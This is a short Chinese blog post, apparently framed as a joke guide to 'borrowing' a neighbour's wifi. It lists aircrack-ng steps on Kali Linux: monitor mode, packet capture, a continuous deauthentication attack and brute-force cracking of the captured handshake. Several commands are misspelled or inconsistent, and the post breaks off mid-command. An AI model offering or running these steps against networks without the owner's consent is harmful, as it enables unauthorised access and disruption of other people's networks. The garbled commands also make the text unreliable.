 4.---
layout:     post
title:      借用隔壁老王wifi攻略
category:   life
description: 借用隔壁老王wifi攻略
---
这篇文章如题，详细的内容不描述。

System : Kali Linux
Tool airmon-ng , 可以探针wifi

1. 检测wifi 的存在
<pre class="prettyprint">
iwcofing
</pre>
2. Check kill
<pre class="prettyprint">
airman-ng check kill
</pre>
3. 查看无线网卡
<pre class="prettyprint">
airmon -ng
</pre>
4. 开启无线网卡 
<pre class="prettyprint">
airmon -ng  start wlan0mon
</pre>
5. 查找无线网络
<pre class="prettyprint">
airodump-ng eth0
</pre>
6. 网络抓包：airodump-ng -w vutfile -c 1 —bssid MacAddress eth0

7. ARP 发包：aireplay-ng -0 0 -a MacAddress eth0

8. 暴力破解：aircrack-ng outfile1.cap -w /